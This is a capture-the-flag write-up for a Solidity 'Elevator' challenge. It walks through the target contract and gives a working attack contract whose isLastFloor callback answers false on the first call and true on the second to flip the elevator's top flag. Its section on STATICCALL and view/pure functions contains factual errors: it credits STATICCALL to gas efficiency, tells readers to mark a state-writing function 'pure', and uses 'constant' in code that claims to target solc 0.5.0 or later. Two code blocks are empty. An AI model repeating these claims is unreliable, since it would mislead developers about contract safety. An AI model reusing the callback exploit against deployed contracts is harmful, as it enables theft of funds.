 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
Challenge's message.

>This elevator won't let you reach the top of your building. Right?

This Solidity code represents an elevator contract with a corresponding interface for a building. 

- The elevator contract (**Elevator**) keeps track of the current floor and whether it has reached the top floor.
- The **goTo** function is used to move the elevator to a specified floor.
- The **Building** interface defines a single function **isLastFloor** that takes a floor number as an argument and returns a boolean value indicating whether it is the last floor in the building.

In the **goTo** function, the contract checks if the specified floor is not the last floor by calling the **isLastFloor** function of the **building** instance (which is the contract that called the **goTo** function). If it is not the last floor, the **floor** variable is updated with the new floor number, and the **top** variable is set based on whether the new floor is the last floor. The code is missing some essential details such as the implementation of the **Building** interface and the deployment of the contracts, but this is the basic idea behind this elevator contract.

## Missing State-Modifying Functions

Smart contracts are self-executing programs that automatically enforce the rules and regulations of a contract. One of the main advantages of smart contracts is that they are transparent and immutable, but this also means that once deployed, the code cannot be changed. Therefore, it is important to ensure that the code is secure before deployment.

One potential security pitfall in Solidity is the use of state-modifying functions that are incorrectly labelled as **constant/pure/view** functions. In Solidity versions prior to 0.5.0, it was possible to modify state variables within a constant/pure/view function using assembly code. However, in solc 0.5.0 and later versions, this is no longer possible due to the use of the **STATICCALL** opcode.

The STATICCALL opcode is a **read-only call** that is similar to the CALL opcode, but with the added constraint that **it does not modify the state of the contract**. This opcode was introduced to **improve gas efficiency by allowing the EVM to avoid the overhead of tracking the modifications made by a function**. However, this also means that any state-modifying code that is executed within a function labelled as constant/pure/view will now result in a revert.

For example, consider the following Solidity code:

```solidity
pragma solidity >=0.5.0;

contract MyContract {

  uint256 public myVar;

  function myFunction(uint256 _value) public constant returns (uint256) {
      myVar = _value;
      return myVar;
  }
}
```
This code defines a contract with a public state variable myVar and a state-modifying function myFunction that sets the value of myVar. However, the myFunction function is labelled as constant, which is incorrect because it modifies the state of the contract.

When this contract is compiled with solc 0.5.0 or later, attempting to call the myFunction function will result in a revert because of the use of the STATICCALL opcode. The correct way to label this function would be to remove the constant keyword and label it as **pure** instead, since it does not read or modify the state of the contract.

## Security Practice

```solidity
```

```solidity
```

# Subverting

This contract gets an instance from **Building** interface in the **goTo()** function and calls the vulnerable **isLastFloor(uint)** function. The reason for being vulnerable of this function is it just returns a boolean value and **it doesn't change or define anything**. **That's why it allows modification to the function that the attacker wants**. 

Let's continue to explain the vulnerability with our attack contract. Here is our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IElevator {
  function goTo(uint) external;
}

contract Attack{

    bool x = false;

    function attack(address _target)external{
        IElevator target = IElevator(_target);
        target.goTo(1);
    }

    function isLastFloor(uint)external returns(bool){
        if(x){
            return true;
        }
        x = true;
        return false;
    }
}
```

In our attack contract, firstly we defined an interface named **IElavator** which will help us to call **goTo()** function from the target contract. Secondly, we have boolean type of a **x** variable which defined as false when the defination. Next, we have an **attack()** function that takes a target contract's address as an argument. It creates an instance with **IElevator** interface and call the **goTo()** function from this instance. Finally, there is **isLastFloor()** function which will have call from our **goTo()** function to check the last floor. But, when its first check, the function returns false and bypass the `! building.isLastFloor(_floor)` statement. In the second check, it returns true and set top vairable as true. Thus, we will solve the challenge.

